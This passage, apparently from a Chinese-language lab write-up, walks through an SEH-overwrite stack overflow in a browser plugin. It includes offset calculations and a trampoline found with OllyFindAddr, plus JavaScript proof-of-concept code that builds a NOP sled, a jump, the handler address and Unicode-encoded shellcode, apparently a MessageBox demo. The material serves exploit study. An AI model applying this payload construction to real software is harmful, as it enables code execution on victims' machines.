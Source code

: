 ```html
</body>
</html>
```

#### 分析

- 如图，ecx指向的地址`0x01DCF4FC`是溢出字符串的起始地址，距离栈顶最近的异常函数地址位于`0x01DCF610`，计算得填充`0x114`也就是276字节即可覆盖到异常处理函数地址，而第277-280字节放置跳板即可

![地址](https://s3.ax1x.com/2020/11/24/DNFQOA.png)  
![SEH链](https://s3.ax1x.com/2020/11/24/DNAZxe.png)  
![异常地址](https://s3.ax1x.com/2020/11/24/DNAV2D.png)  

- 使用`OllyFindAddr`插件的`Overflow return address->Find CALL/JMP[EBP+N]`选项查找指令，本次实验找到了`0x300B2D1C`的`CALL [EBP+0xC]`作为跳板，如图

![跳板](https://s3.ax1x.com/2020/11/24/DNAHQe.png)

- 根据前面的计算把跳板地址放到shellcode相应位置中，保存POC页面，test更改函数如下

```js
<script>
	var s = "\u9090";
	while (s.length < 138)
	{
		s += "\u9090";
	}
	s += "\u2D1C\u300B";
	test.test(s);
</script>
```

- 书上说此时触发除0异常将会转入shellcode跳板处，但是貌似事先未写入除0操作，于是再次编译插件，在test函数中加入除0操作
- 此时，成功在跳板处断下，EBP寄存器内的值是`0x01DCF150`，根据跳板指示将跳往跳板地址前的4个字节，在此可以加入一个跳转，而shellcode放到后方，如下所示

```x86asm
01DCF60C   /EB 06           jmp short 01DCF614			; jump
01DCF60E   |90              nop
01DCF60F   |90              nop
01DCF610   |1C 2D           sbb al,0x2D					; addr
01DCF612   |0B30            or esi,dword ptr ds:[eax]	; addr
01DCF614   \90              nop							; shellcode payload start
```

- 最终的test函数如下所示

```js
<script>
	var s = "\u9090";

	while (s.length < 136)
	{
		s += "\u9090";
	}

	s += "\u06EB\u9090";
	s += "\u2D1C\u300B";
	s += "\u68fc\u0a6a\u1e38\u6368\ud189\u684f\u7432\u0c91\uf48b\u7e8d\u33f4\ub7db\u2b04\u66e3\u33bb\u5332\u7568\u6573\u5472\ud233\u8b64\u305a\u4b8b\u8b0c\u1c49\u098b\u698b\uad08\u6a3d\u380a\u751e\u9505\u57ff\u95f8\u8b60\u3c45\u4c8b\u7805\ucd03\u598b\u0320\u33dd\u47ff\u348b\u03bb\u99f5\ube0f\u3a06\u74c4\uc108\u07ca\ud003\ueb46\u3bf1\u2454\u751c\u8be4\u2459\udd03\u8b66\u7b3c\u598b\u031c\u03dd\ubb2c\u5f95\u57ab\u3d61\u0a6a\u1e38\ua975\udb33\u6853\u616B\u6F6F\u4D68\u7369\u8B61\u53c4\u5050\uff53\ufc57\uff53\uf857";

	test.test(s);
</script>
```